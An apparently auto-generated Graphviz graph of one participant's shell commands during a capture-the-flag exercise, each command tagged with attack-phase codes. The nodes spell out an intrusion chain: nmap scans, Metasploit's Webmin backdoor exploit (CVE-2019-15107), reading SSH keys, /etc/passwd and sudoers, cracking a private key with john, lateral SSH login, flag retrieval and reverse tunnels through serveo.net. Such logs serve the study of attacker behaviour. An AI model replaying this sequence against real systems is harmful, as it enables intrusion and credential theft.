 // creating graph for user: 77
digraph {
	node [shape=box]
	4 [label="nmap 172.18.1.5 -A M0 "]
	5 [label="systemctl start ssh A16 "]
	6 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	8 [label="ssh root@127.0.0.1 A16 "]
	9 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	10 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	11 [label="vim /etc/ssh/sshd_config A16 "]
	12 [label="systemctl restart ssh A16 "]
	15 [label="nmap -p 10000 -A 172.18.1.5 M0 "]
	16 [label="msfconsole M2 "]
	17 [label="search CVE-2019-15107 A3 "]
	18 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	19 [label="show A5 "]
	20 [label="show options M5 "]
	21 [label="set LHOST 172.18.1.5 M6 "]
	22 [label="show options M5 "]
	24 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	25 [label="set RHOSTS 172.18.1.5 M6 "]
	26 [label="run M8 "]
	27 [label="set LPORT 6666 A6 "]
	28 [label="run M8 "]
	29 [label="set LHOST 0.0.0.0 M6 "]
	30 [label="run M8 "]
	34 [label="show options M5 "]
	35 [label="set LHOST 192.168.130.188 M6 "]
	36 [label="set SRVHOST 192.168.130.188 A6 "]
	37 [label="run M8 "]
	38 [label="msfconsole M2 "]
	39 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	40 [label="show options M5 "]
	41 [label="set RHOSTS 172.18.1.5 M6 "]
	42 [label="run M8 "]
	44 [label="set LHOST 10.1.135.83 M6 "]
	45 [label="run M8 "]
	48 [label="ls A10 "]
	51 [label="ls A10 "]
	53 [label="ls A10 "]
	54 [label="ls -hlA A10 "]
	56 [label="ls A10 "]
	57 [label="ls .ssh A10 A16 "]
	58 [label="cat .ssh/autorized_keys A1 A9 A11 A12 A16 A17 "]
	59 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	61 [label="ls A10 "]
	67 [label="ps aux  A9 A11 A12 A17 "]
	78 [label="ls A10 "]
	79 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	80 [label="ls A10 "]
	82 [label="nmap A0 A1 "]
	84 [label="ls A10 "]
	87 [label="apt install nmap A0 A1 "]
	88 [label="cat /etc/crontab] A1 A9 A11 A12 A17 "]
	89 [label="cat /etc/crontab A1 A9 A11 A12 A17 "]
	90 [label="cat /etc/cron.*/* A1 A9 A11 A12 A17 "]
	93 [label="ls -hlA A10 "]
	94 [label="ls -hlA cron* A10 "]
	96 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	98 [label="ls A10 "]
	99 [label="ls -hlA * A10 "]
	101 [label="ls -hlA A10 "]
	102 [label="ls -hlA .ssh A10 A16 "]
	103 [label="cat .ssh/* A1 A9 A11 A12 A16 A17 "]
	104 [label="ls A10 "]
	105 [label="ls -hlA A10 "]
	108 [label="ls -hlA A10 "]
	109 [label="ls -hlA .ssh A10 A16 "]
	110 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	112 [label="ls A10 "]
	113 [label="ls -hlA A10 "]
	115 [label="ls -hlA A10 "]
	117 [label="ls -hlA A10 "]
	119 [label="ls -hlA A10 "]
	120 [label="cat * A1 A9 A11 A12 A17 "]
	121 [label="cat .* A1 A9 A11 A12 A17 "]
	122 [label="ls -hlA A10 "]
	124 [label="ls -hlA A10 "]
	125 [label="ls -hlA * A10 "]
	127 [label="cat .bash_history M11 "]
	128 [label="ls -hlA A10 "]
	129 [label="nmap A0 A1 "]
	130 [label="ls -hlA A10 "]
	131 [label="cat .bash_history M11 "]
	133 [label="ls -hlA A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	136 [label="ls A10 "]
	137 [label="ls -hlA A10 "]
	138 [label="cp .ssh/* /root/.ssh/ A16 "]
	140 [label="ls -hlA .ssh A10 A16 "]
	142 [label="ls -hlA A10 "]
	143 [label="cat .bash_history M11 "]
	144 [label="ls -hlA A10 "]
	145 [label="ls -hlA /tmp A10 "]
	146 [label="alias ll='ls -hlA' A10 "]
	154 [label="cat root/.bash_history M11 "]
	170 [label="cat syslog A1 A9 A11 A12 A17 "]
	172 [label="zcat syslog.1 A1 A9 A11 A12 A17 "]
	173 [label="cat syslog.1 A1 A9 A11 A12 A17 "]
	177 [label="ll ssh A16 "]
	179 [label="cat sudoers A1 A9 A11 A12 A17 "]
	183 [label="alias ll='ls -hlA' A10 "]
	188 [label="cd .ssh A16 "]
	190 [label="cat id_rsa M12 "]
	192 [label="alias ll='ls -hlA' A10 "]
	197 [label="gpg2john id_rsa A14 "]
	198 [label="apt install ssh2john A14 A16 "]
	199 [label="wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py M8 "]
	200 [label="chmod +x ssh2john.py A14 A15 A16 "]
	201 [label="./ssh2john.py id_rsa A14 A16 "]
	202 [label="./ssh2john.py id_rsa > x A14 A16 "]
	205 [label="john --wordlist=/usr/share/wordlists/rockyou.txt x M14 "]
	209 [label="cat /home/eve/.bash_history M11 "]
	210 [label="ssh eve@10.1.17.4 M16 "]
	211 [label="ls -hlA A10 "]
	212 [label="alias ll='ls -hlA' A10 "]
	218 [label="cat /home/eve/.bash_history M11 "]
	219 [label="ssh eve@10.1.17.4 M16 "]
	220 [label="alias ll='ls -hlA' A10 "]
	224 [label="cat flag.txt M17 "]
	231 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	235 [label="cat top-secret/flag.txt M17 "]
	236 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	237 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	238 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	245 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	246 [label="cat /etc/cron* A1 A9 A11 A12 A17 "]
	251 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	254 [label="cat /etc/api/sources.list A1 A9 A11 A12 A17 "]
	255 [label="cat /etc/apt/sources.list A1 A9 A11 A12 A17 "]
	0 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 48 [constraint=false]
	48 -> 51 [constraint=false]
	51 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 61 [constraint=false]
	61 -> 67 [constraint=false]
	67 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 82 [constraint=false]
	82 -> 84 [constraint=false]
	84 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 96 [constraint=false]
	96 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 115 [constraint=false]
	115 -> 117 [constraint=false]
	117 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 140 [constraint=false]
	140 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 154 [constraint=false]
	154 -> 170 [constraint=false]
	170 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 177 [constraint=false]
	177 -> 179 [constraint=false]
	179 -> 183 [constraint=false]
	183 -> 188 [constraint=false]
	188 -> 190 [constraint=false]
	190 -> 192 [constraint=false]
	192 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 205 [constraint=false]
	205 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 224 [constraint=false]
	224 -> 231 [constraint=false]
	231 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 251 [constraint=false]
	251 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	rankdir=LR
}
